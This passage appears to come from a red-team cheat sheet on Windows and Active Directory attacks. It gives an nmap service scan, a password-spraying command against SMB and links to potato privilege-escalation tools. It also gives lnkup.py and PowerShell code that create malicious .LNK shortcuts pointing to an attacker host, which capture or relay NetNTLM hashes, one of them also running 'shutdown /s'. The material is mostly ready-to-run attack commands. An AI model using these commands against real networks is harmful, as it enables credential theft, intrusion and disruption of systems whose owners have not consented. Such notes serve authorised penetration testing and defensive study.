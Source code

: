 ```
nmap -p 8080,1098,1099,1050,8000,8888,8008,37471,40259,9010,7001 -iL ips.txt -oN tomcat_rmi_jboss.txt -sV
```

### adPeas
- https://github.com/61106960/adPEAS

### Password spray
- https://github.com/Greenwolf/Spray/blob/master/spray.sh

Spraying 3 password attempt for each user every 15 minutes without attempting password=username  
```
spray.sh -smb 192.168.0.10 users.txt seasons.txt 3 15 corp.company.local NOUSERUSER
```

- https://github.com/ShutdownRepo/smartbrute

### Force Authentication
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

.SCF, .URL, .RTF, .XML, 
  
#### LNK Files
If you get access to a share we can create a malicious .LNK file. This .LNK file will includes a refernece to the attacker computers.
You can after choose to Relay the *NetNTLM* hash or crack it.

- https://github.com/Plazmaz/LNKUp
Use --execute to specify a command to run when the shortcut is double clicked 
```
lnkup.py --host attackerIP --type ntlm --output out.lnk --execute "shutdown /s"
```

Using PowerShell
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\<attackerIP>\@file.txt"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "LNK file"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Potatoes Attacks
#### Ghost potato
https://shenaniganslabs.io/files/impacket-ghostpotato.zip

#### Remote Potato
https://github.com/antonioCoco/RemotePotato0/
